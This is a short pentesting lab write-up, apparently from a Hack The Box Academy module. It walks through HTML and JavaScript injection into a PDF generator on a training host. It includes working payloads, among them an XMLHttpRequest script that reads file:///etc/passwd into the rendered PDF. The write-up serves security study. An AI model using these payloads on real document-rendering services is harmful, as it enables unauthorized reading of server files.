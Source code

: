 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSRF to LFI

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

The site `tracking.inlanefreight.local` accepts a tracking number and generates a PDF document. The tracking number gets reflected in the PDF (Figure 1).

<figure><img src="../../../.gitbook/assets/html_injection.png" alt=""><figcaption><p>Figure 1: The input gets reflected within the generated PDF.</p></figcaption></figure>

The input field takes any input, not just numbers, and accepts both HTML and JS (Figure 2).

{% tabs %}
{% tab title="HTML Payload" %}
```html
<h1>test</h1>
```
{% endtab %}

{% tab title="JS Payload" %}
```javascript
<script>document.write('TESTING THIS')</script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/html_injection_test.png" alt=""><figcaption><p>Figure 2: Testing HTML injection.</p></figcaption></figure>

Follow [this](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f) and [this](https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/) posts that use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest), we can try to achieve LFI (Figure 3).

{% tabs %}
{% tab title="Payload" %}
```javascript
<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/html_injection_to_lfi.png" alt=""><figcaption><p>Figure 3: HTML Injection to LFI.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="SSRF via PDF HTML Injection" %}
{% embed url="https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90" %}
{% endtab %}

{% tab title="SSRF to LFI via PDF HTML Injection" %}
{% embed url="https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f" %}
{% endtab %}
{% endtabs %}


